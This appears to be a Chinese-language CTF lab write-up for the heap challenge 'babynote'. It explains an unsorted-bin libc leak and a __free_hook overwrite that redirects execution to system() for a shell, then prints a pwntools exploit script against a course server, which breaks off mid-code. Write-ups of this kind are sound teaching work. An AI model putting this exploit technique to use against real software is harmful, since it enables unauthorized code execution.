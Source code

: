 ## [LAB] babynote

題目能進行四種操作，add、edit、show、del\
1. add: 指定 index，新增一個結構，接著 malloc 記憶體，將 name 欄位內容設成自己指定的字串\
每一個結構裡面除了 name 之外還會有 data pointer，add 的時候 data 會被初始化為 NULL\
2. edit: 指定 index，編輯結構中的 data 內容，可用來指定或修改結構中的 data pointer 裡存的內容\
如果是第一次使用的話會先 malloc 一段記憶體空間給 data\
接著將結構中的 data pointer 裡存的內容設為自己指定的內容\
1. show: 指定 index，印出結構中的 name 和 data 內容\
2. del: 指定 index，刪除結構，free 結構中的 data pointer 以及整個結構

而這題可利用 unsorted bin 洩漏 libc address 的漏洞獲取 __free_hook 和 system() 的 address\
配合 overflow 將 chunk 裡的 data pointer 覆寫為 __free_hook 的 address\
然後將 __free_hook 指向的內容竄改為 system() 的 address，最後執行程式拿到 shell

我是按照講師投影片上的步驟來解，這邊先附上解題腳本，以方便解說
```python
# babynote/solve.py
from pwn import *

context.arch = 'amd64'
#context.terminal = ['tmux', 'splitw', '-h']
#r = process('./chal')
r = remote('edu-ctf.zoolab.org', 10007)

def add_note(index, name):
    r.sendlineafter(b'> ', b'1')
    r.sendlineafter(b'index\n> ', str(index).encode())
    r.sendlineafter(b'note name\n> ', name)

def edit_data(index, size, data):
    r.sendlineafter(b'> ', b'2')
    r.sendlineafter(b'index\n> ', str(index).encode())
    r.sendlineafter(b'size\n> ', str(size).encode())
    r.sendline(data)

def del_note(index):
    r.sendlineafter(b'> ', b'3')
    r.sendlineafter(b'index\n> ', str(index).encode())

add_note(0, b'A'*8)
edit_data(0, 0x418, b'a'*0x418)

add_note(1, b'B'*8)
edit_data(1, 0x18, b'b'*0x18)

add_note(2, b'C'*8)
del_note(0)

r.sendlineafter(b'> ', b'4')
r.recvuntil(b'data: ')
main_arena_96 = u64(r.recv(6).ljust(8, b'\x00'))
#print(hex(main_arena_96))
free_hook = main_arena_96 + 0x2268
#print(hex(free_hook))
system = main_arena_96 - 0x19a950
#print(hex(system))
#gdb.attach(r)

data = b'/bin/sh\x00'.ljust(0x10, b'B')
fake_chunk = flat(
    0, 0x21,
    b'C'*0x10,
    free_hook,
```